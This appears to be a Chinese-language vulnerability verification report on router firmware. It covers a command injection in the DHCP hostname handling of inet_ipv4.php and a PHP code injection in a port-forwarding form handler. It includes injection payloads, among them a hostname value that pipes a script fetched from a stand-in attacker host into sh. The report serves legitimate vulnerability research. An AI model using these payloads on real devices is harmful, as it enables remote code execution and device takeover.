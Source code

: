 ## 验证指标

- **验证时长：** 99.77 秒
- **Token 使用量：** 127467

---

## 原始信息

- **文件/目录路径：** `etc/services/INET/inet_ipv4.php`
- **位置：** `inet_ipv4.php:inet_ipv4_dynamic 函数（大约行100-110）`
- **描述：** 在 inet_ipv4_dynamic 函数中，$hostname_dhcpc 变量（来自NVRAM的 /device/hostname_dhcpc）被直接插入到 udhcpc 命令中，缺乏转义。攻击者可修改主机名为恶意字符串（如 'example.com; malicious_command'），当接口启动或更新时，触发命令注入，导致任意命令执行。触发条件：攻击者修改主机名配置后，网络接口重新连接或DHCP续约。利用方式：通过Web界面或API修改主机名字段，注入shell命令。
- **代码片段：**
  ```
  $hostname_dhcpc = get("s", "/device/hostname_dhcpc");
  ...
  'udhcpc '.$unicast.'-i '.$ifname.' -H '.$hostname_dhcpc.' -p '.$udhcpc_pid.' -s '.$udhcpc_helper.' '.$dhcpplus_cmd.' &\n'
  ```
- **备注：** 需要验证 hostname_dhcpc 是否确实用户可控（通过Web界面）。建议检查 /etc/scripts/IPV4.INET.php 是否对参数进行转义。关联函数：get() 和 query() 可能从XML数据库读取数据。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确：在inet_ipv4_dynamic函数中，$hostname_dhcpc变量（来自NVRAM的/device/hostname_dhcpc）被直接插入udhcpc命令字符串，缺乏任何转义或清理。攻击者模型为已通过身份验证的用户（例如通过Web界面或API），可修改主机名配置。当网络接口处于动态IP模式并触发启动、重新连接或DHCP续约时，恶意命令被执行。完整攻击链：攻击者修改主机名为注入载荷（如'example.com; malicious_command'）→ 系统读取NVRAM值并构建命令 → udhcpc执行时注入命令 → 任意命令执行。PoC步骤：1. 攻击者通过身份验证后，将主机名字段修改为'example.com; curl http://attacker.com/shell.sh | sh'。2. 触发接口重新连接（如重启网络服务或DHCP续约）。3. 恶意命令执行，下载并运行远程脚本。证据支持：代码片段显示直接字符串拼接，无转义；输入来源为NVRAM，用户可控；逻辑路径在动态IP模式下可达。风险高，因可导致设备完全控制。

## 验证指标

- **验证时长：** 280.67 秒
- **Token 使用量：** 403063

---

## 原始信息

- **文件/目录路径：** `htdocs/mydlink/form_portforwarding`
- **位置：** `form_portforwarding:20-40 (在循环中使用 fwrite 和 dophp 的部分)`
- **描述：** 在 'form_portforwarding' 文件中发现代码注入漏洞。当用户提交端口转发配置时（通过 POST 请求设置 `settingsChanged=1`），脚本将未过滤的 POST 数据（如 'enabled_*', 'name_*', 'ip_*' 等）直接写入临时文件 '/tmp/form_portforwarding.php'，然后使用 `dophp("load",$tmp_file)` 加载执行。由于输入未经过任何验证或转义，攻击者可以注入恶意 PHP 代码（例如，在 'name_*' 字段中包含 `"; system("id"); //`），导致任意代码执行。触发条件：攻击者发送特制 POST 请求到该脚本。利用方式：通过控制 POST 参数注入代码，从而执行系统命令，可能获得 web 服务器权限。攻击者是已连接到设备并拥有有效登录凭据的用户（非root用户）。
- **代码片段：**
  ```
  while($i < $max)
  {
      fwrite("w+", $tmp_file, "<?\n");
      fwrite("a", $tmp_file, "$enable = $_POST[\"enabled_".$i."\"];\n");
      fwrite("a", $tmp_file, "$used = $_POST[\"used_".$i."\"];\n");
      fwrite("a", $tmp_file, "$name = $_POST[\"name_".$i."\"];\n");
      fwrite("a", $tmp_file, "$public_port = $_POST[\"public_port_".$i."\"];\n");
      fwrite("a", $tmp_file, "$public_port_to = $_POST[\"public_port_to_".$i."\"];\n");
      fwrite("a", $tmp_file, "$sched_name = $_POST[\"sched_name_".$i."\"];\n");
      fwrite("a", $tmp_file, "$ip = $_POST[\"ip_".$i."\"];\n");
  ```
